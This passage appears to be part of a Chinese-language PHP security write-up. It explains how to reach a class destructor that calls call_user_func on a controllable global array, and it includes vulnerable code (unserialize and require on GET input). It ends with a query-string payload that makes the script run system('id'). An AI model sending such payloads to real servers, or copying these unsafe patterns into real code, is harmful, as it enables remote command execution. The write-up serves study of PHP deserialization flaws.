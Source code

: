 ``` php
		if(!is_array($array)) {
			return;
		}

		foreach(array_keys($array) as $key) {
			unset($GLOBALS[$key]);
		}
	}

	function __destruct() {
		global $shutdown_functions;

		if($shutdown_functions && is_array($shutdown_functions)) {
			call_user_func($shutdown_functions['function'], $shutdown_functions['arguments']);
		}
	}
}

$core = new Core;

if ($_GET['filename']) {
	require basename($_GET['filename']);
}

$id = unserialize($_GET['id']);

$shutdown_functions = array();

?>
```

在取消全局变量的情况下，利用 require 包含不存在的文件造成 Fatal error 错误以及利用 unserialize() 函数对非法格式序列化字符串进行反序列化的「特性」虽能在 $shutdown\_functions 初始化前执行 \_\_destruct() 方法，但无法控制 $shutdown\_functions。

这时可以利用 exit 语言结构在取消全局变量前退出脚本执行过程，并执行 Core 类中的 \_\_destruct() 方法，因为没有取消全局，$shutdown\_functions 也是可以控制的。
``` php
foo.php?GLOBALS=1&shutdown_functions[function]=system&shutdown_functions[arguments]=id
```
